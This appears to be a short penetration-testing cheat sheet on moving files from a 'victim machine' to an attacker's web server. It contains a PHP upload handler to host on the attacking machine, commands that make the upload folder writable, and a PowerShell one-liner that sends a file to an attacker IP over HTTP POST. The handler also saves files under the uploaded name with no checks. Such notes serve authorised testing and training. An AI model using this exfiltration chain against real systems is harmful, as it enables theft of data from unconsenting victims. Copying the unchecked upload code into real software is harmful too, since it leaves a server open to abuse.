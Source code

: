 # PHP Server

## Overview

* if outbound HTTP traffic is not blocked, powershell can be used to upload files to the attacking machine through PHP code hosted on the attacking machine's web server
* it works through an HTTP post request

## How To

```php
# create a PHP file and put it inside of /var/www/html/ within the attacking machine
# save it as "upload.php"
# this code processes incoming upload requests and moves them to the uploads directory
<?php
$updir = '/var/www/uploads/';

$upfile = $updir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $upfile)
?>

# remember to create the /var/www/uploads/ folder and modify www-data permissions
# so that anyone can upload files to the uploads.php page
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads

# use this command to transfer from the victim machine to the attacker's HTTP server
powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.10.10/upload.php', 'examplefile.txt')
```



